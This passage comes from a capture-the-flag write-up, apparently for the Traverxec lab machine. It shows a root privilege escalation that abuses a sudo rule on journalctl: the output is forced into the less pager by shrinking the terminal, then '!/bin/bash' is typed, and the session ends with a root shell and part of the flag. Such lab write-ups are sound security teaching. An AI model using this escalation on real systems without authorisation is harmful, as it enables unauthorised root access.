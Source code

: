 There's a script which runs sudo on the program journalctl. 

## Exploiting journalctl

If we look up journalctrl on gtfobins (read gtfobins), and there is a sudo option. It’s quite short and simply saying:

    sudo journalctl !/bin/sh

The journalctrl will output to stdout if it the amount of vertical lines can fit onto the current page, otherwise it will go into `less` if it can’t. We can try this on our localhost:
```
sudo journalctl
```

You will see that we are now in `less`:

```bash
sep 09 20:49:55 parrot kernel: MTRR default type: uncachable
sep 09 20:49:55 parrot kernel: MTRR fixed ranges enabled:
sep 09 20:49:55 parrot kernel:   00000-9FFFF write-back
lines 1-39
```

In the journalctl command we can see the parameter `-n` which takes `5` lines as the argument this means that only five lines will be sent to the output, so we need to shrink the terminal to something smaller than 5 lines, and we’ll get sent into less as root. Lets try this on our host first, to see how it works:

```shell
sudo journalctl -n 5
```
Let's not forget to resize the terminal (vertically).

Knowing this, we can try to attempt to escalate privileges with command shown in GTFOBins:
```shell
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2021-10-17 18:09:21 EDT, end at Sun 2021-10-17 19:25:33 EDT. --
Oct 17 18:34:04 traverxec sudo[3841]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty= ruser=www-data rhost=  user=www-data
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): conversation failed
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): auth could not identify password for [www-data]
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cd /root
root@traverxec:~# ls
nostromo_1.9.6-1.deb  root.txt
root@traverxec:~# cut -c-5 root.txt
9aa36
```

Alternatively, we can just setup the stty rows to have less than 5 rows (vertical lines):
```shell
david@traverxec:~$ stty rows 1
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david#
```